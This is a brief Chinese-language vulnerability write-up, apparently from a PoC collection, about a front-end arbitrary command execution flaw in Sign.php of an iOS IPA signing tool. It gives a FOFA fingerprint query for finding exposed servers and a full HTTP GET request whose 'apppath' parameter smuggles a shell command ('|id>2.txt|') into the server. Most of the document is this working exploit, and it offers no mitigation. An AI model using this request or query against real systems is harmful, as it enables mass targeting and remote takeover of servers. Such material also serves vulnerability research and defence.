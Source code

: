 # 苹果IOS端IPA签名工具Sign.php前台任意命令执行漏洞

苹果IOS端IPA签名工具Sign.php前台任意命令执行漏洞，可能导致攻击者任意上传文件，控制服务器权限。

## fofa

```javascript
body="/assets/index/css/mobileSelect.css"
```

## poc

```javascript
GET /api/sign/sign?udidres[0][sjskg]=1&noinject[name]=a&ttname=1&udid=1&appname=1&appid=a&appicon=1&apppath=|id>2.txt|&p12path=1&mppath=1&appbid=1&ipaPath=1&gm=0&filesPath=1&rm=1&app_name=1 HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241107115421829](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411071154927.png)